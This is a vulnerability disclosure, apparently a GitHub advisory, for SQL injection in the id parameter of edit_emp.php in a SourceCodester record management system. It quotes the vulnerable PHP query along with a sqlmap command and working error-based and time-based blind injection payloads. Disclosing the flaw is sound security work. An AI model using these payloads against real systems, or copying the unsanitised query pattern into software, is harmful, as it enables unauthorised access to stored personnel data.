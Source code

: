 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (edit_emp.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
edit_emp.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/edit_emp.php):
```
$get_id=$_GET['id'];
$name_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$name_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/edit_emp.php?id=126 --batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=126'||(SELECT 0x7063664a WHERE 9172=9172 AND (SELECT 2687 FROM(SELECT COUNT(*),CONCAT(0x71786b6a71,(SELECT (ELT(2687=2687,1))),0x71706b6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=126'||(SELECT 0x6d414649 WHERE 2807=2807 AND (SELECT 2150 FROM (SELECT(SLEEP(5)))EdbI))||'
---
```
